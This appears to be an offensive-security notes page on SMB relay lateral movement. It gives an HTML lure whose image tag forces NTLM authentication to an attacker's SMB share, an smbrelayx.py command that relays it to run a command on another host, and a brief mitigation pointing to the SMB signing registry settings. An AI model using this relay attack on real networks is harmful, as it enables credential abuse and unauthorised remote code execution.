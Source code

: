 # Lateral Movement via SMB Relaying

{% hint style="warning" %}
WIP
{% endhint %}

## Execution

{% code-tabs %}
{% code-tabs-item title="message.html" %}
```markup
<html>
    <h1>holla good sir</h1>
    <img src="file://10.0.0.5/download.jpg">
</html>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```text
smbrelayx.py -h 10.0.0.6 -c "ipconfig"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-12-30-22-33-59.png)

![](../.gitbook/assets/peek-2018-12-30-22-31.gif)

## Mitigation

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters
```

![](../.gitbook/assets/screenshot-from-2018-12-30-22-29-05.png)

![](../.gitbook/assets/screenshot-from-2018-12-30-22-38-24.png)

![](../.gitbook/assets/screenshot-from-2018-12-30-22-36-01.png)

## References

{% embed url="https://ramnathshenoy.wordpress.com/2017/03/19/lateral-movement-with-smbrelayx-py/" %}

{% embed url="https://blogs.technet.microsoft.com/josebda/2010/12/01/the-basics-of-smb-signing-covering-both-smb1-and-smb2/" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc785861\(v=ws.10\)" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc728025\(v=ws.10\)" %}

{% embed url="https://nmap.org/nsedoc/scripts/smb-security-mode.html" %}




